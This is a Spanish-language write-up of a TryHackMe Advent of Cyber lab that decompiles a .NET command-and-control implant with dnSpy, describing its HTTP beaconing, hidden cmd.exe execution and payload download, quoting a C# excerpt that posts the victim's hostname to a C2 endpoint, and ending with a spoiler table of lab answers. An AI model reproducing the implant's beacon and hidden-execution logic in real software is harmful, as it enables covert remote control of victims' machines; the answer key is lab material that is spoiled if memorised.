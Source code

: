 # Advent of Cyber Día 9: Malware analysis

## Introducción

En el día de hoy se va a trabajar con el malware del día previo, se sabe que fué creado en .NET por lo que vamos a utilizar la herramienta **dnSpy** para *decompilarlo*.

Se da también una introducción a como funcionan los binarios de .NET y lo básico de C#, pero como ya tengo experiencia en el tema opto por no agregarlo.

## Objetivos de aprendizaje

- Aprender lo básico del análisis de malware de manera segura.
- Aprender las bases de los binarios de .NET.
- Aprender a utilizar dnSpy.
- Armar una metodología para el análisis del código fuente del malware.

## Análisis de malware de manera segura

Teniendo en cuenta que el malware es software específicamente creado con el objetivo de hacer daño, es esencial tomar las precauciones adecuadas para su análisis. A continuación se hablará del concepto de **sandboxing**.

Una **sandbox** es una computadora emulada que actúa como si fuera un dispositivo real. Es un entorno seguro para que los expertos puedan trabajar con elementos maliciosos sin preocuparse por las consecuencias.  
Generalmente el entorno de la **sandbox** contiene lo siguiente:

- **Controles de red**: para limitar y monitorear el tráfico de red que genera el malware. También impide que el mismo se propague.
- **Virtualización**: para emular un entorno real, se utilizan tecnologías como VMware, VirtualBox o Hyper-V. Estas herramientas facilitan en análisis ya que, entre otras cosas, permiten realizar snapshots y resets del sistema emulado.
- **Monitoreo y logging**: las sandboxes tienen logs detallados de las actividades que genera el malware, como por ejemplo la interacción con el sistema, el tráfico de red y la modificación de archivos.

## Command and control

Refiere a un sistema centralizado o infraestructura que los actores maliciosos utilizan para controlar o interactuar con las distintas máquinas que tengan comprometidas. Sirve como un canal mediante el cual los actores envían comandos a las entidades controladas, haciéndoles ejecutar distintas tareas como por ejemplo: el robo de información, vigilancia o propagar aún más el malware.

![C2](img/1.svg)

Para entrar más en detalle, el malware que tenga cualidades de C2 generalmente muestra el siguiente comportamiento:

1. **Peticiones HTTP**: los servidores C2 generalmente se comunican con las máquinas comprometidas mediante peticiones HTTP, las mismas pueden utilizarse para enviar comandos o recibir información.
2. **Ejecución de comandos**: es el comportamiento más común, le permite a los atacantes ejecutar comandos del sistema dentro de la máquina comprometida.
3. **Sleep o delay**: para evitar ser detectado, los actores maliciosos generalmente le agregan al malware instrucciones de reposo, por ejemplo que cada cierto tiempo entren en *sleep*, durante este periodo el malware no realiza ninguna tarea y solo se volverá a conectar al servidor C2 cuando pase el tiempo especificado.

## Decompilando con dnSpy

**dnSpy** es un editor y debugger de ensamblados .NET. Se lo utiliza generalmente para realizar ingeniería inversa, analizar y manipular aplicaciones hechas en C#.

El proceso de análisis varía depende el caso, acá nos recomiendan comenzar por el punto de entrada del programa (`Main`). Una vez visto muy por arriba recomiendan analizar cada una de las funciones y por último volver otra vez a `Main`, ya con toda la información de las funciones extras.

## Resolución

### Primer vistazo a `Main`

![Main](img/1.png)

### Análisis de las funciones

#### `GetIt`

Se encarga de realizar una petición HTTP a una URL remota, por defecto la petición es `GET`, y devuelve el resultado de la misma.

![GetIt](img/2.png)

#### `PostIt`

Realiza una petición HTTP con método POST, donde el valor enviado corresponde al segundo parámetro de la función y devuelve la respuesta.

![PostIt](img/3.png)

#### `Sleeper`

Pausa la ejecución del malware para evitar ser detectado.

![Sleeper](img/4.png)

#### `ExecuteCommand`

Inicializa un nuevo proceso y ejecuta `cmd.exe` con el argumento enviado por parámetro. También especifica que el proceso corra de manera oculta, sin una ventana, mediante `Process.WindowStyle.Hidden`.

![ExecuteCommand](img/5.png)

#### `Encryptor`

THM no entra en detalle sobre el tema criptográfico, a grandes rasgos explica que esta función encripta una `string` usando un **AES cipher** y devuelve su valor encoded en base 64.

![Encryptor](img/6.png)

#### `Decryptor`

Al igual que en `Encryptor` acá tampoco se entra en detalle sobre la criptografía. Esta función recibe una `string` en base 64, la decodea y devuelve su valor desencriptado.

![Decryptor](img/7.png)

#### `Implant`

Recibe una URL, inicializa una petición HTTP y la decodea en base 64. Obtiene la ruta `APPDATA` y trata de escribir los contenidos decodeados en un archivo, si logra hacerlo retorna su dirección, caso contrario retorna una cadena vacía.

![Implant](img/8.png)

### Armando el execution pipeline

Ya con la información de todas las funciones podemos volver a `Main`, analizar su funcionamiento y separarlo en etapas.

#### Etapa de definición

Se da previo al loop y podemos detallarlo de la siguiente manera:

```csharp
// 1. Retrieves the victim machine's hostname via Dns.GetHostName function and stores it to a variable.
string hostName = Dns.GetHostName();

// 2. Init of HTTP URL together with the data to be submitted to the /reg endpoint.
string str = "http://REDACTED C2 DOMAIN";
string url = str + "/reg";
string data = "name=" + hostName;

// 3. Execution of the HTTP POST request to the target URL (str variable) together with the POST data that contains the hostname of the victim machine (data variable).
// It is also notable that the response from the HTTP request is being stored in another variable (str2)
string str2 = Program.PostIt(url, data);

// 4. Init of other variables, which will be used in the following code lines.
int count = 15000;
bool flag = false;
```

#### Etapa de loop

Al no tener límites definidos, el loop se ejecuta hasta que se llega al `break`. En esta etapa se da la ejecución de la mayoría de las funciones detalladas previamente, según la orden recibida se ejecuta una u otra.  
Como se puede ver en el código, la ejecución depende de si `GetIt` devuelve algo.

![Loop](img/9.png)

Y en la siguiente tabla podemos ver el resumen de las distintas instrucciones que contemplan los ifs.

![Tabla](img/10.png)

#### Etapa de cierre

Como se explicó previamente, el loop de ejecución no tiene un límite definido, por lo que la ejecución del loop y por consiguiente del programa continúan hasta llegar al `break`, el cual depende de `flag`.

```csharp
if (flag)
{
    break;
}
```

En resumen, si `flag` es `true` la ejecución del malware termina.

### Respuesta

<details>
<summary>Spoiler</summary>
<table>
  <thead>
    <tr>
      <th style="text-align:center">Información</th>
      <th style="text-align:center">Valor</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:center">HTTP User-Agent</td>
      <td style="text-align:center"><code>Mozilla/5.0 (Macintosh; Intel Mac OS X 14_0) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.0 Safari/605.1.15</code></td>
    </tr>
    <tr>
      <td style="text-align:center">HTTP method</td>
      <td style="text-align:center"><code>POST</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Clave de encriptado y desencriptado</td>
      <td style="text-align:center"><code>youcanthackthissupersecurec2keys</code></td>
    </tr>
    <tr>
      <td style="text-align:center">HTTP URL</td>
      <td style="text-align:center"><code>http://mcgreedysecretc2.thm/reg</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Tiempo de sleep en segundos</td>
      <td style="text-align:center"><code>15</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Comando utilizado por el hacker para ejecutar comandos de sistema via cmd.exe</td>
      <td style="text-align:center"><code>shell</code></td>
    </tr>
    <tr>
      <td style="text-align:center">Dominio utilizado para descargar binario</td>
      <td style="text-align:center"><code>stash.mcgreedy.thm</code></td>
    </tr>
  </tbody>
  </tbody>
</table>
</details>

### [Volver a inicio](../../README.md)
